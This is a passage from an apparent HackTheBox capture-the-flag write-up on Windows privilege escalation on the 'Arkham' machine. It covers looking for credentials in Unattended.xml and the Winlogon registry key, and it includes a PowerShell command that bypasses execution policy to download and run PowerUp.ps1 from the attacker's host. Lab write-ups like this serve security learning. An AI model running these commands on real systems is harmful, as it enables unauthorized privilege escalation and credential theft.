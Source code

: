 
And finally, we get a shell. 

## Privilege Escalation

At first i tried to catch quick wins with `whoami /priv` and `cmdkey /list`, but they came up empty. 

Then i started to look around the system, and that's when i found `C:\Windows\Panther\Unattended.xml`. Inside it i saw an interesting user account:

![unattended-28](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arkham/img/unattended-28.png)

The `Batman` user is an admin on the machine, if we can get his password we can try to run `psexec` to elevate privileges. 
I tired to hunt for his passowrd in the registry with `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`, there was an entry for his user, but no password. 

I wondered around the filesystem for a while, looking through potentially interesting files, but found nothing useful. So i decide to shift gears and run [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) instead.

I tried to download it from my kali machine and execute it with one command:

```cmd
powershell --exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.61/PowerUp.ps1'); Invoke-AllChecks
```

But this gave the following error:

![err-29](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arkham/img/err-29.png)
